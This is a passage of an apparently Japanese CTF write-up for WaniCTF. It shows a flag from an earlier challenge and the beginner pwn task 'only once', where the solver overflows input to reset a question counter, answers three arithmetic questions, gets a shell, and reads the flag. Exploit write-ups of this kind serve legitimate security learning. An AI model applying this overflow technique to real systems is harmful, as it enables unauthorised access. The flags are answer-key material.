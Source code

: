 ```bash
FLAG{1375_k339_17_u9_4nd_m0v3_0n_2_7h3_n3x7!}
```

### FLAG 

```
FLAG{1375_k339_17_u9_4nd_m0v3_0n_2_7h3_n3x7!}
```


## Pwn/02.only once: Beginner

計算問題に3問連続正解したら、ご褒美にシェルをプレゼント！

あれ？1問しか出題されないぞ！？

nc only-once-pwn.wanictf.org 9002

ヒント
pwnカテゴリでは、問題サーバで動いている実行ファイルとそのソースコードが配布されていることが多いです。"netcat"のソースコードと比較してどこが変化しているでしょうか。

### SOLUTION 
3問正答したいが、仕様上1問しか正答できなかったです。
そこで、大量に文字を打ち込んでスタックオーバーフローを起こしたあと、3回正答しました。

```bash
+---------------------------------------+
| your score: 0, remaining -2818 challenges |
+---------------------------------------+

808 + 808 = 1616
Cool!

+---------------------------------------+
| your score: 1, remaining -2819 challenges |
+---------------------------------------+

129 +  46 = 175
Cool!

+---------------------------------------+
| your score: 2, remaining -2820 challenges |
+---------------------------------------+

 58 + 391 = 449
Cool!
Congrats!
ls
FLAG
chall
redir.sh
cat FLAG
FLAG{y0u_4r3_600d_47_c41cu14710n5!}
```
